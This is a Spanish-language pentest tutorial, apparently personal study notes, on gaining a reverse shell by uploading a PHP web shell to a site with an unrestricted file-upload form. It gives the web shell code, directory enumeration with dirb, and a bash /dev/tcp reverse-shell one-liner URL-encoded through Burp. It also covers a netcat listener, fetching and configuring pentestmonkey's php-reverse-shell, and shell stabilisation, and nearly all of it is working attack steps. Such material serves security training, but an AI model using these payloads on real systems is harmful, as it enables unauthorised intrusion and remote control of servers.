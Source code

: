 ### Reverse Shell con php

- Lo ideal es encontrar un sitio web vulnerable (Vulhub)
- El sitio tiene una subida de archivos de cualquier tipo:

En el btn de selección de archivos, subimos el archivo con el código php para la ejecución del código:

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre";
?>
```

Podemos utilizar una herramienta llamada `dirb` para encontrar directorios web

En Kali lo siguiente:

```sh
(root@kali)- [/home/kali/Desktop]
-> dirb http://elsitioweb
...

====> DIRECTORY: http://elsitioweb/uploads/
```

- Copiamos esa ruta... la llevamos a la url
- Ubicamos el archivo malicioso, copiamos el nombre - lo agregamos a la URL
- Nos queda lo siguiente en la URL:

```sh
-> http://elsitioweb/uploads/pwned.php?cmd=whoami
-> http://elsitioweb/uploads/pwned.php?cmd=id
-> http://elsitioweb/uploads/pwned.php?cmd=ls
```

Y ya puedo ejecutar comando desde la url.

Solo faltaría enviar un comando que conecte con nuestro servidor:

```sh
$ ifconfig
# nos devuelve nuestra IP

$ nc -nlvp 443 # cualquier puerto
```

Necesitamos que vaya el comando en la URL:

```sh
$ bash -c 'bash -i >& /dev/tcp/192.../443 0>&1'
# esto asi, no nos sirve
```

Podemos capturarlo con Burp Suite:

- En la sección de `Decoder`
- Pegamos el comando : `bash -c 'bash -i >& /dev/tcp/192.../443 0>&1'`
- En la parte del lado derecho seleccionamos `Encode as...` - `URL`
- Nos entrega un resultado y eso lo pegamos en la URL: 

```sh
$ http://elsitioweb/uploads/pwned.php?cmd=AQUIELCOMANDODEBURPSUITE
```

Con esto tenemos la conexión con la máquina objetivo.

### Plan B:

Nos ahorramos todo esto y buscamos el repositorio en:

`pentestmonkey/php-reverse-shell`

Link: [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shel)

Nos traemos el archivo: `php-reverse-shell.php` con raw

Y con:

```sh
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

$ ls
```

Editamos el archivo:

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127...';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Esta vez no necesitamos hacer tantos pasos:

- En la URL: `http://elsitioweb/uploads/php-reverse-shell.php`
- Teniendo en cuenta que el puerto esta en escucha (443 ó 444)
- Ejecutamos...

Hacemos tratamiento de TTY (interactive):

```sh
$ ls
$ script /dev/null -c bash
www-data@simple:/$ ^Z
szh: suspended nc -nlvp 444

(root@kali)-[/home/kali/Desktop]
-> $ stty raw -echo; fg
[1] + continued nc -nlvp 444
...

$ export SHELL=bash
$ export TERM=xterm
...
```

